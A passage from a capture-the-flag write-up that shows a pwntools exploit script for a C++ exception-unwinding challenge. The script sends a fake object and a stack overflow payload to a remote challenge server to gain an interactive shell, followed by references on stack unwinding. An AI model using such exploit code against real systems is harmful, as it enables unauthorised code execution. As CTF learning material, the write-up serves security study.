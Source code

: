 ```c
[DEBUG] Received 0x1c bytes:
    b'sh: 1: /readflag: not found\n'
sh: 1: /readflag: not found
```

## Exploit script

>solve.py
```python
from pwn import *
import time

if args.LOCAL:
    io=process('./a.out')
    if args.GDB:
        cmd="""
        b* 0x420978 
        b* 0x4038fc
        c
        """
        gdb.attach(io, gdbscript=cmd)
else:
    io=remote('43.132.193.22', 9999)

elf=context.binary=ELF('./a.out')
context.log_level='debug'
system=0x000000000042dc10
pop_rdi=0x0000000000403090
bin_sh=0x4bdd62
backdoor=0x000000000403387
user_canary=0x4f4aa0

pl=p64(backdoor)*2+p64(0x4f4aa0) # fake obj
pause()
io.send(pl+(64-len(pl))*b'\0')
sleep(1)

pl=b'A'*96+p64(0)+p64(0x0000000000403407)+p64(0x4f4aa0+8*2)*2
pause()

sleep(1)
io.sendline(pl)
sleep(1)
io.interactive()
```
# Reference

[https://maskray.me/blog/2020-11-08-stack-unwinding](https://maskray.me/blog/2020-11-08-stack-unwinding)

[https://github.com/chop-project/](https://github.com/chop-project/)

[https://www.cnblogs.com/catch/p/3604516.html](https://www.cnblogs.com/catch/p/3604516.html)

[https://baiy.cn/doc/cpp/inside_exception.htm](https://baiy.cn/doc/cpp/inside_exception.htm)

